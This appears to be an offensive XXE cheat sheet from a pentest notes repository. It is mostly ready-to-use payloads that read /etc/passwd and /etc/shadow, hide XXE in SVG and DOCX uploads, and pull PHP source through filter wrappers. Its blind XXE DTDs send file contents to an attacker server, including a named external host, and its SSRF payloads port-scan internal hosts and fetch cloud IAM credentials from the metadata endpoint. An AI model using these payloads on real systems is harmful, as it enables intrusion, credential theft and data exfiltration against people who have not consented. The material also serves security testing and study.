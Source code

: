 # Detection
### XML Data Entry Points
- Search HTTP requests for tree-like structure or signature of XML document (`<?xml`)
- Keep an eye out for base64/URL-encoded XML data.
- File-upload features in _XML_, _HTML_, _DOCX_, _PPTX_, _XLSX_, _GPX_, _PDF_, _SVG_, and _RSS feeds_.
  - Metadata embedded within images like _GIF_, _PNG_, and _JPEG_ files are all based on XML.
- SOAP web services are also XML based.
- Force the application into parsing XML data in endpoints that take plaintext/JSON input by default.
  - Convert the JSON data to XML in *https://www.convertjson.com/json-to-xml.htm*
  - If neede, Change `Content-Type` header to `Content-Type: text/xml` or `Content-Type: application/xml`.
  - Include XML data in request body.
    - Replace `&` with `%26`.
    - Put the `%26data;` in a place that is reflected in the page source code.
    ```xml
    http://77.238.121.150:44791/flight.php?data=<!DOCTYPE f [<!ENTITY data SYSTEM "http://127.0.0.1/admin.php">]><flight><from>London, UK</from><depart>%26data;</depart><return></return></flight>
    ```
- Submit an XInclude test payload for applications that receive user-submitted data and embed it into an XML document on the server side.

### Normal XXE
- Send a few trial-and-error XXE payloads and observing the application’s response.
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE example [
  
  <!ENTITY test SYSTEM "Hello!">                              <!-- Use one of these payloads -->
  <!ENTITY test SYSTEM "file:///etc/hostname">
  <!ENTITY test SYSTEM "/etc/hostname">
  <!ENTITY test PUBLIC "abc" "file:///etc/hostname">
  
  ]>
  <example>&test;</example>
  ```
  ```xml
  <!DOCTYPE f [<!ENTITY data SYSTEM "/etc/passwd">]><update><fname>&data;</fname><lname>&data;</lname><email>w@w.w</email><user>&data;</user><address></address></update>
  ```
- If these payloads work, try to read `/etc/hostname`, `/etc/passwd`, `~/.bash_history` (that contains URLs, IP addresses, and file locations)

### Blind XXE
- Malicious XML.
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE example [
  <!ENTITY test SYSTEM "http://attacker_server:80/xxe_test.txt">
  ]>
  <example>&test;</example>
  ```
- Check VPS if the request is received. *(Use ports 80 and 443 to bypass common firewall restrictions)*

### XXE Payloads in Different File Types
##### SVG
- Open up the image as a text file.
  ```xml
  <svg width="500" height="500">
  <circle cx="50" cy="50" r="40" fill="blue" />
  </svg>
  ```
- Insert the XXE payload by adding a DTD directly into the file and referencing the external entity in the SVG image.
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE example [
  <!ENTITY test SYSTEM "file:///etc/shadow">
  ]>
  <svg width="500" height="500">
  <circle cx="50" cy="50" r="40" fill="blue" />
  <text font-size="16" x="0" y="16">&test;</text>
  </svg>
  ```

##### docx, pptx, xlxs
- Unzip the document file.
  ```bash
  uznip 1.docx
  ```
- Insert payload into `/word/document.xml`, `/ppt/presentation.xml`, or `/xl/workbook.xml`:
  ```xml
  <?xml version="1.0" encoding="UTF-8" standalone="yes"?><!DOCTYPE f [<!ENTITY data SYSTEM '/etc/passwd'>]>
  <w:document xmlns:wpc="http://schem....<w:r><w:t>ehsan&data;</w:t></w:r>....</w:sectPr></w:body></w:document>
  ```
- Repack the archives into the `.docx`, `.pptx`, or `.xlxs` format.
  ```bash
  zip -r new.docx *
  ```
- Upload the malicious document, then find an endpoint that show the parsed document.

### XInclude Attacks
- **XInclude** is a special XML feature that builds a separate XML document from a single XML tag named `xi:include`.
- Insert the following payload into the data entry point and see if the file that you requested gets sent back in the response body:
  ```xml
  <example xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/hostname"/>
  </example>
  ```

# Escalate
### Read file in normal XXE
- Place the local file’s path into the DTD of the parsed XML file.
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE example [
  <!ENTITY file SYSTEM "file:///etc/shadow">
  ]>
  <example>&file;</example>
  ```

### Read Code
- Using PHP Wrappers
  - Maliciuos XML:
    ```xml
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
      <!ELEMENT foo ANY>
      <!ENTITY bar SYSTEM "php://filter/read=convert.base64-encode/resource=/root/php/test.php">
    ]>
    <owasp>
          <instagram>&bar;</instagram>
    </owasp>
    ```
- Using CDATA
  - `evil.dtd` file on attacker server:
    ```xml
    <!ENTITY all "%start;%stuff;%end;">
    ```
  - Malicious XML:
    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
      <!ENTITY % start "<![CDATA[">
      <!ENTITY % stuff SYSTEM "/root/php/test.php">
      <!ENTITY % end "]]>">
      <!ENTITY % dtd SYSTEM "http://cvefix.ir:8000/evil.dtd">
      %dtd;
    ]>
    <owasp>
        <instagram>&all;</instagram>
    </owasp>
    ```

### Read file in Blind XXE
- In this scenario, we used only **parameter entities** and did not use **external entities** at all. Also this will exfiltrate just first line, because og `\n`.
- Host an external DTD (`xxe.dtd`) on attacker server:
  - `&#x25;` is `%`.
  ```xml
  <!ENTITY % file SYSTEM "file:///etc/shadow">
  <!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">        
  %ent;
  %exfiltrate;
  ```
- Malicious XML:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE example [
  <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
  %xxe;
  ]>
  ```

### Read file (with PHP Wrapper) in Blind XXE
- `evil.dtd` file on attacker server:
  ```xml
  <!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/root/php/test.php">
  <!ENTITY % final "<!ENTITY exfil SYSTEM 'http://cvefix.ir:8000/?d=%data;'>">
  ```
- Maliciuos XML:
  ```xml
  <?xml version="1.0" ?>
    <!DOCTYPE r [
    <!ELEMENT r ANY >
    <!ENTITY % sp SYSTEM "http://cvefix.ir:8000/evil.dtd">
    %sp;
    %final;
  ]>

  <owasp>
  	<instagram>&exfil;</instagram>
  </owasp>
  ```
  
### SSRF
- Port scan
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE example [
  <!ENTITY file SYSTEM "http://10.0.0.1:§80§">
  ]>
  <example>&file;</example>
  ```
- Pull instance metadata
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE example [
  <!ENTITY file SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
  ]>
  <example>&file;</example>
  ```
- When trying to view unintended data like this, look for the exfiltrated data in page source code or HTTP response directly, rather than viewing the HTML page rendered by the browser.

